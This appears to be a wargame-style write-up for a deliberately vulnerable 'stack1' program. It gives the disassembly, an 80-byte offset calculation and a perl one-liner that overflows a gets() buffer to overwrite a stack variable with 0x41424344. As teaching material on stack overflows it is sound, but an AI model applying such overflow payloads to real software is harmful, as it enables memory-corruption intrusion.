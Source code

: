 ```nasm
# objdump -d -Mintel stack1 | grep -A20 main.:
08048424 <main>:
 8048424: 55                    push   ebp
 8048425: 89 e5                 mov    ebp,esp
 8048427: 83 ec 64              sub    esp,0x64
 804842a: 8d 45 fc              lea    eax,[ebp-0x4]
 804842d: 89 44 24 08           mov    DWORD PTR [esp+0x8],eax
 8048431: 8d 45 ac              lea    eax,[ebp-0x54]
 8048434: 89 44 24 04           mov    DWORD PTR [esp+0x4],eax
 8048438: c7 04 24 30 85 04 08  mov    DWORD PTR [esp],0x8048530
 804843f: e8 08 ff ff ff        call   804834c <printf@plt>
 8048444: 8d 45 ac              lea    eax,[ebp-0x54]
 8048447: 89 04 24              mov    DWORD PTR [esp],eax
 804844a: e8 dd fe ff ff        call   804832c <gets@plt>
 804844f: 8b 45 fc              mov    eax,DWORD PTR [ebp-0x4]
 8048452: 3d 44 43 42 41        cmp    eax,`0x41424344`
 8048457: 75 0c                 jne    8048465 <main+0x41>
 8048459: c7 04 24 48 85 04 08  mov    DWORD PTR [esp],0x8048548
 8048460: e8 f7 fe ff ff        call   804835c <puts@plt>
 8048465: c9                    leave
 8048466: c3                    ret
 8048467: 90                    nop
```

From here we could proceed to the exploitation phase.

##Solution #1: Overflow the 4B past buf, where the cookie is stored, with the desired value (`0x41424344` in this case)

For this solution we first need to calculate the offset between `buf`
and `cookie`:

```bash
# ./stack1
buf: bfad87b4 cookie: bfad8804
AAAAAAA

# printf "offset: %d\n" $((`0xbffff554` - `0xbffff504`))
offset: 80
```

As expected, it came out to be 80B. We craft a perl command-line to
overwrite 80B of data to reach past the `buf` boundary. Once this is
done, we're pointing at the cookie, which can then be overwritten with
the desired content:

```bash
# perl -e 'print "A"x80 . "\x44\x43\x42\x41"' | ./stack1
buf: bfee2d14 cookie: bfee2d64
you win!
```

**NOTE**: The test system is a x86 Intel machine that uses [little-endian](http://isisblogs.poly.edu/2012/05/28/endianness/) byte ordering. We take this into account and reorder individual bytes to set the `cookie` with appropriate value.
